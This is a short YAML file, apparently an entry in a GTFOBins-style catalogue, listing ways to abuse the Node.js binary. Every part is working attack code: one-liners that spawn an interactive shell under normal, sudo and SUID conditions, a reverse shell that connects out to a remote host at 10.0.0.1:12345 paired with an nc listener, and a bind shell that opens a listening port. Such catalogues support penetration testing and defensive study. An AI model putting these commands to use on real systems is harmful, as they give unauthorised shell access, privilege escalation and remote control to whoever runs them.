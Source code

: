 ```yaml
---
functions:
  exec-interactive:
    - code: |
        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  sudo-enabled:
    - code: |
        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  suid-enabled:
    - code: |
        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'
  reverse-shell:
    - description: Run `nc -l -p 12345` to receive the shell on the other end.
      code: |
        export RHOST=10.0.0.1
        export RPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        net.connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        });'
  bind-shell:
    - description: Run `nc 10.0.0.1 12345` to connect to the shell on the other end.
      code: |
        export LPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        require("net").createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT);'
---
```

